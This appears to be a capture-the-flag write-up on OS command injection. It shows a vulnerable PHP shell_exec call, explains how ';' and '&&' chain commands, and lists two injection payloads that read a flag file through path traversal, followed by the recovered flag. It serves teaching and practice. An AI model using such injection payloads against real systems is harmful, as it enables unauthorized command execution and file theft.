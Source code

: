 * Category
  * OS Command Injection
* Solution
  1. How to separate commands?
     * unconditionally
       * ```;```
     * run cmd2 only if cmd1 succeeds
       * ```&&```
  2. ```<?= shell_exec("host '" . $_POST['name'] . "';") ?>```
     * The input value is part of parameter in ```shell_exec```
     * close ```host``` command with ```'```
     * Use either  ```;``` or ```&&``` to separate ```host``` command and desired command
     * close ```';``` with ```'```
* Payload
  1. ```'; cat ../../../flag_44ebd3936a907d59;'```
  2. ```example.com' && cat ../../../flag_44ebd3936a907d59;'```
* Reference
  * [execute two shell commands in single exec php statement](https://stackoverflow.com/questions/7122742/execute-two-shell-commands-in-single-exec-php-statement)
* ```FLAG{B4by_c0mmand_1njection!}```